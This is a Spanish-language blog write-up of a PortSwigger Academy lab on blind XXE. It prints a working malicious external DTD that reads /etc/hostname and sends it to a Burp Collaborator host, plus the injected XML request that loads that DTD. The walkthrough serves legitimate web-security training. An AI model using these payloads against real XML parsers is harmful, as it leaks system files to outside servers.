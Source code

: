 +++
author = "Alux"
title = "Portswigger Academy Learning Path: XML external entity (XXE) Lab 5"
date = "2022-01-23"
description = "Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD"
tags = [
    "xxe",
    "blind xxe",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

La vulnerabilidad o el ataque de XXE es poder realizar una inyeccion XML en la aplicacion que analiza la entrada que le pasa el usuario o el sistema. Lo que hace que un analizados XML no este configuracion o este configurado debilmente para que procese peticiones que un usuario mal intencionado pueda inyectar. Pudiendo llegar a ejecucion de comandos, lectura de archivos y otros.

![Proceso de XXE](xxe-injection.svg)


## Reconocimiento

En este <cite>laboratorio[^1]</cite>la finalidad es poder realizar una inyeccion XXE pero en este caso de tipo blind valiendose de la configuracion debil del analizador. Pero esta vez exfiltrando datos a travez de un DTD externo malicioso al que se conectara.

Primero notamos la opcion de `Check stock` de la web en la que recuperamos la existencia de los productos.

![Check stock](checkstock.png)

Al ir a la opcion de `Check stock` en burp vemos la peticion que se hace al servidor usando lenguaje XML para realizar la peticion.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

![Peticion para recuperar el stock del producto](request1.png)

## Explotacion

Sabiendo esto lo primero que haremos sera crear nuestra entidad DTD que estara alojada en un servidor web al cual luego se le hara referencia en la consulta enviada para poder inyectarla. Lo que hara esta entidad externa maliciosa es primero pedir el archivo `/etc/hostname` y luego enviar el contenido de esta solicitud hacia otro servidor en este caso en burpcollaborator la cual veremos un log el contenido del hostname.

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://0mnodc980sc5dnrg5sbsauaco3uuij.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```

![Entidad DTD alojada en un servidor externo](exploit.png)

Sabiendo esto haremos nuestra peticion pero referenciando a la entidad externa maliciosa alojada en el servidor

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-acb21f3b1ee66c24c17b96bb01c60046.web-security-academy.net/exploit.dtd"> %xxe;]>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

![Realizando peticion para blind XXE referenciando a la entidad externa](request2.png)

Ahora que ya hemos ejecutado vemos primero el log de apache por lo que se ha referenciado correctamente, solo queda esperar que ejecute todo lo que esta dentro de la entidad.

![Log de la solicitud http](log.png)

Y se ejecuta correctamente lo de la entidad y vemos claramente como hace la solicitud con el contenido de `/etc/hostname` en la peticion `GET`

![Log de consulta DNS y HTTP](collaborator.png)

Y con esto hemos resuelto el lab.

![Laboratorio resuelto](resuelto.png)

[^1]: [Laboratorio](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)